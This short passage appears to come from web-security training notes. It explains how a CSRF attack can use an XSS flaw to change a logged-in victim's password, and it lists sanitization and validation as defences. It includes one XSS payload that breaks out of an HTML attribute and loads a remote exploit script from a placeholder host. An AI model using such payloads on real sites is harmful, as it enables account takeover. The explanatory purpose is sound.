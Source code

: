 `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

```html
"><script src=//www.example.com/exploit.js></script>
```

|Type|Description|
|---|---|
|`Sanitization`|Removing special characters and non-standard characters from user input before displaying it or storing it.|
|`Validation`|Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|
